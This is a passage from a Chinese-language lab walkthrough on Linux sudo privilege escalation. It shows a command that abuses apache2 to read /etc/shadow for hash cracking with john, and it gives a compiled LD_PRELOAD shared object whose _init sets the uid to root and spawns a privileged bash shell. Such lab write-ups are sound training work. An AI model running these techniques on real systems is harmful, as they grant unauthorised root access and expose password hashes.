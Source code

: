 ![image-20221010001540832](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010001540832.png)

![image-20221010002040683](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010002040683.png)

![image-20221010002906921](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010002906921.png)

尝试在没有 shell 转义序列的情况下，使用sudo来操作apache2程序进行提权：

```
 sudo apache2 -f /etc/shadow
```

![image-20221010004008049](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010004008049.png)

拿到root用户的密码hash值，然后使用john进行hash破解，最后使用密码直接登陆root用户即可（前面已经有类似的操作截图，此处不再赘述）

**答题卡**

![image-20221010001301811](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010001301811.png)

## Sudo提权-环境变量

可以将 Sudo 配置为从用户的环境继承某些环境变量。

检查继承了哪些环境变量(在本例中查看 env \_ keep 选项) :

```
sudo -l
```

![image-20221010105045536](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010105045536.png)

从上图可以看到 LD\_PRELOAD 和 LD\_LIBRARY\_PATH 都是从用户环境继承的，当程序运行时，LD\_PRELOAD 会先加载一个共享对象，而LD\_LIBRARY\_PATH 则提供了首先搜索共享库的目录列表。我们可以对环境变量LD\_PRELOAD 和LD\_LIBRARY\_PATH进行利用（使用sudo）。

> 关于LD\_PRELOAD利用的资料：
>
> https://jvns.ca/blog/2014/11/27/ld-preload-is-super-fun-and-easy/
>
> https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld\_preload-to-cheat-inject-features-and-investigate-programs/

使用位于/home/user/tools/sudo/preload.c 的代码创建一个共享对象:

```shell
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
#本质上是编译preload.c 以便我们使用它
```

为了解实现原理，我们看一下preload.c的内容：

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
//执行_init函数：释放环境变量、设置uid和root的uid对应、设置命令"/bin/bash -p"（该命令作用是打开bash shell）

//    unsetenv函数介绍
//    头文件：#include<stdlib.h>
//    函数原型： int unsetenv(const char* name)
//    函数说明：删除name环境变量的定义，即使不存在也不会出错
//    参数：name为环境变量名称字符串。 
//    返回值：成功返回0，错误返回-1
```